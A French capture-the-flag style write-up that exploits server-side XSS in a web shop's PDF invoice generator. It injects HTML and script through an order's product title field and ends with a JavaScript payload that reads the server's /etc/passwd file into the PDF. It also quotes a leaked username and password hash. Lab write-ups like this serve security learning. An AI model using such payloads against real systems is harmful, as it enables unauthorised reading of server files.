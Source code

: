 On se retrouve avec ça :

angoose:b3e795719e2a644f69838a593dd159ac

Le mot de passe ne fonctionne pas pour se connecter en ssh.

### Le site : la page de commandes.

Le site est full bugué et ne fonctionne pas du tout sur firefox, très mal sur chromium. Il aura fallu le recoder en partie afin de voir ce qu'il fait.

On peut tenter de déterminer la structure des json envoyés au endpoint /api/order.

### Les requêtes :

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Red Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":4}]}
```

Une fois la requête envoyée, on se retrouver avec un order id. Cet order id peut être utilisé sur le endpoint /api/po/%orderId%

Cet endpoint va créer un pdf avec les données du produit (une facture en somme).

### Server Side XSS:

Le premier résultat sur lequel on tombe en cherchant est la vulnérabilité connue sous le nom de Server Side XSS.

En somme, c'est une XSS côté serveur. Le bot, si les entrées de l'utilisateur ne sont pas correctement désinfectées, va les interpréter comme du js ou du html... Comme une XSS côté client.

On a plusieurs champs de possibles pour faire cela :

title, description par exemple.

Après essais, le titre est reflété. En effet, si on injecte `<h1>TOTO</h1>` dans le champ titre, on se retrouve avec un nom d'article en très gros.

Essayons de refaire un test, mais cette fois avec du javascript.

`<script>document.write('toto')</script>`. On se retrouve bien avec le mot "toto" de reflété dans le document. Il s'agira maintenant de trouver un moyen pour extraire des informations du serveur.

On peut également tenter de créer une iframe. Et ça fonctionne tout autant.

### Exploitation

On peut déjà tenter de retrouver le fichier "/etc/passwd".

Le payload suivant nous permet de retrouver le contenu du fichier et de pouvoir le lire (sans cela il est sur une seule ligne et donc illisible entièrement) :

```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write('<style> p {width: 600px; word-break: break-all;}</style><p>'.concat(btoa(this.responseText)).concat('</p>'))};x.open('GET','file:///etc/passwd');x.send();</script>
```
